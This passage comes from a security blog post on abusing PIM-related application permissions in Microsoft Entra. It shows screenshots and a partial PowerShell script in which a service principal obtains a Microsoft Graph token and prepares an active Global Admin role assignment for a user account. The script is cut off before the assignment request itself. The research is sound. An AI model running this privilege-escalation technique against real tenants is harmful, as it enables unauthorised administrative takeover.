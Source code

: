 [![](/assets/images/blog/2024-08-06-abusing-pim-related-application-permissions-part-4/04_screenshot.png)](/assets/images/blog/2024-08-06-abusing-pim-related-application-permissions-part-4/04_screenshot.png)

[![](/assets/images/blog/2024-08-06-abusing-pim-related-application-permissions-part-4/05_screenshot.png)](/assets/images/blog/2024-08-06-abusing-pim-related-application-permissions-part-4/05_screenshot.png)

The PowerShell code leveraging the “Harmless app” to assign the Global Admin role to our “Harmless user account” with Iteration 2 of the PIM API is as follows:

```
## Set SP info
$tid = ''
$appid = ''
$password = ''

# Set user info
$userId = ''

# Acquire MS Graph access token
$securePassword = ConvertTo-SecureString -String $password -AsPlainText -Force
$credential = New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList $appId, $securePassword
Connect-AzAccount -ServicePrincipal -TenantId $tid -Credential $credential
$token = (Get-AzAccessToken -ResourceTypeName MSGraph).Token

# Request active Entra role assignment
$roleDefinitionId = '62e90394-69f5-4237-9190-012177145e10' # current: Global Admin (replace with any role Id)
```